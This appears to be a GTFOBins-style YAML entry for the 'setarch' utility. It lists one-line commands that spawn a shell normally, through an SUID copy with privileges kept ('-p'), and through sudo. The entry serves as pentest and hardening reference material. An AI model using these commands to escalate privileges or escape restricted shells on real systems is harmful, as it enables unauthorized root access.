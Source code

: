 ```yaml
---
functions:
  execute-interactive:
  - code: setarch $(arch) /bin/sh
  suid-enabled:
  - code: "./setarch $(arch) /bin/sh -p"
  sudo-enabled:
  - code: sudo setarch $(arch) /bin/sh
---
```

